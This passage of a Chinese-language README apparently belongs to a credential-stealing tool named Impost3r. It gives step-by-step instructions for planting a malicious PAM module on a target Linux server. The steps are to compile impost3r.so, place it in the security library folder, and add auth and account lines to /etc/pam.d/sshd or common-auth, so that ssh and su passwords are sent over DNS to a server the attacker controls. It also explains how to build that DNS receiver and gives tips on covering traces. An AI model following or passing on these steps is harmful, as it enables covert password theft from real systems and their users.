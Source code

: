 - 修改完成后，保存并在当前目录下执行```make```

- 得到编译好的文件```impost3r.so```

- 将编译完成的```impost3r.so```上传至目标机器的```/lib/x86_64-linux-gnu/security```下(不同机器可能文件夹名不同，请根据情况放置)

- 进入```/etc/pam.d```下，这时分两种情况，如果选择的模式是仅偷取ssh密码，那么就需要执行```vi sshd```,在文件的最后添加如下语句(这里需要注意，除Ubuntu外其他基于linux的系统的此文件可能相较于Ubuntu存在较大差异，建议自行读懂规则后再在合适的位置进行添加)

```
auth optional impost3r.so
account optional impost3r.so
```

- 保存并退出，重启sshd服务```service sshd restart```

- 而如果选择的是ssh和su密码一起偷取，那么就需要执行```vi common-auth```，添加相同语句，保存并退出后同样重启sshd服务

- 攻击者在自己的服务器上启动dns服务端程序，等待合法用户使用```ssh```登陆目标机器或者使用```su```切换用户后获取密码。

### 窃取效果

<img src="https://user-images.githubusercontent.com/45198234/83846859-d7960c00-a73d-11ea-81f2-5ec5a912a28d.gif" width="1200" >

### Tips

- 在窃取ssh/su密码的情况下，Impost3r由于权限原因无法清除痕迹，需要攻击者自己去清除

- 请注意，如果设置仅窃取ssh密码，那么基本可以保证攻击者能百分百收到窃取结果，而如果设置两者同时窃取，则不一定保证攻击者能百分百收到结果(仅当设置为dns发送的时候，设置为本地保存不受影响)

- 不推荐窃取su密码，而且由于用户的ssh密码与su密码是相同的，故而能不窃取su密码就不要窃取，ssh密码就足矣

- 默认不窃取空密码，请自行尝试用户是否存在空密码(检查一下sshd的配置文件中是否有```PermitEmptyPasswords yes```,如果是空，那还窃取个鬼鬼。)

## 注意事项

- Dns服务端程序我使用的是[Fdns](https://github.com/deepdarkness/Fdns)，并修改了一部分参数，大家可在文件夹Fdns下找到修改后的源代码，请自行利用命令```gcc -o dns main.c util.c```编译(注意要先修改main.c中的监听端口)
- 在编译Fdns之前,请查看```util.h```中的```YOUR_DOMAIN```值，确保此值与被植入服务器上的Impost3r程序所编译时使用的```YOUR_DOMAIN```值是一致的，不然可能会导致窃取的失败
- 此程序仅是闲暇时开发学习，功能可能存在bug，请多多谅解，也欢迎反馈问题

## 致谢

- [Fdns](https://github.com/deepdarkness/Fdns)
- [libbaseencode](https://github.com/paolostivanin/libbaseencode) 
